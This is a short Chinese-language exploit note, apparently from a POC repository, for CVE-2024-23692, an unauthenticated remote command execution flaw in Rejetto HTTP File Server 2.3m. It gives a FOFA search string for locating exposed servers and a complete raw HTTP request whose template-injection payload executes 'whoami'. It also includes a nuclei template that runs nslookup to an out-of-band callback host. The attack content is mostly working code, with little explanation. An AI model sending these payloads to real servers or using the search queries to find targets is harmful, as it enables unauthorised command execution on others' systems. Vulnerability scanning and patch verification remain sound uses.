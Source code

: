 ## HFS2.3未经身份验证的远程代码执行(CVE-2024-23692)

Rejetto HTTP 文件服务器 2.3m 未经身份验证的 RCE

## fofa

```
"HttpFileServer"
```
![image](https://github.com/user-attachments/assets/176f6744-f85e-46e5-b9db-7c537c9753b4)

## poc

```
GET /?n=%0A&cmd=whoami&search=%25xxx%25url%25:%password%}{.exec|{.?cmd.}|timeout=15|out=abc.}{.?n.}{.?n.}RESULT:{.?n.}{.^abc.}===={.?n.} HTTP/1.1
Host: 
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: HFS_SID_=0.590236319694668
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406092216228.png)

![image-20240611150501738](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406111505997.png)

## nuclei

```
id: CVE-2024-23692

info:
  name: Rejetto HTTP File Server - Template injection
  author: johnk3r
  severity: critical
  description: |
    This vulnerability allows a remote, unauthenticated attacker to execute arbitrary commands on the affected system by sending a specially crafted HTTP request.
  reference:
    - https://github.com/rapid7/metasploit-framework/pull/19240
    - https://mohemiv.com/all/rejetto-http-file-server-2-3m-unauthenticated-rce/
  metadata:
    verified: true
    max-request: 1
    shodan-query: product:"HttpFileServer httpd"
  tags: cve,cve2024,hfs,rce

http:
  - method: GET
    path:
      - "{{BaseURL}}/?n=%0A&cmd=nslookup+{{interactsh-url}}&search=%25xxx%25url%25:%password%}{.exec|{.?cmd.}|timeout=15|out=abc.}{.?n.}{.?n.}RESULT:{.?n.}{.^abc.}===={.?n.}"

    matchers-condition: and
    matchers:
      - type: word
        part: interactsh_protocol
        words:
          - "dns"

      - type: word
        part: body
        words:
          - "rejetto"
```


